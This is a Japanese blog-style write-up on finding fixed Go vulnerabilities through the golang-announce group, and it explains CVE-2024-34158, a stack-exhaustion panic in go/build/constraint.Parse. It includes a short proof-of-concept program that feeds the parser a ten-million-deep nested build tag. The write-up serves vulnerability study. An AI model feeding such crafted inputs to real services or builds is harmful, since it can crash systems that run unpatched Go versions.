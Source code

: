 
# 修正済み脆弱性の見つけ方

幾つかあるが，例えば Go の Google Group （メーリングリスト的な）を利用するという方法がある． [\*1](#1)
Google Group であれば，`[security]` で検索をかけると（マイナーリリースを含め）
脆弱性修正のリリース情報がみつかる．

今回は次を参考にした．
https://groups.google.com/g/golang-announce/c/K-cEzDeCtpc/m/OYKru5vTAQAJ
記事を読んでいると Go issue の URL があるのでクリックすると GitHub の issues に飛べる．

# CVE-2024-34158

CVE-2024-34158 は，長過ぎる式または深すぎるネストをもつビルドタグを Parse 関数が解析する際に，スタックが枯渇してパニックを引き起こすという問題である．[\*2](#2)

## 具体的に

長過ぎる式は，大量の`||`または`&&`を含む論理式を指す．
深すぎるネストは，`()`の過剰な入れ子構造を指す．
例えば，次のようなビルドタグである．
（ここで， ... は１千万回繰り返しなど十分大きい回数を省略している表現）

```go
//go:build a || a || a || ...
```

または

```go
//go:build (((... ((a && b)) ...)))
```

## 検証（成功）

前述の考えを基に，パース処理の挙動を比較するコードを載せる．
特に，深い OR ネストのビルドタグを試した．
繰り返しには `strings.Repeat` を使った．
パース処理でエラーを受け取るのは想定する動作なので，エラーメッセージは標準出力に渡した．
パニックになった場合は `constraint.Parse()` が返せないので，エラーで終了（中断）する（と予想した）．

```go:main.go
package main

import (
	"fmt"
	"go/build/constraint"
	"strings"
)

func main() {
	// ばか深い論理式
	expr := "//go:build " + strings.Repeat("(a || ",   10000000) + "true" + strings.Repeat(")", 10000000)

	// パース処理
	if _, err := constraint.Parse(expr); err != nil {
		fmt.Println(err)
	}
}
```
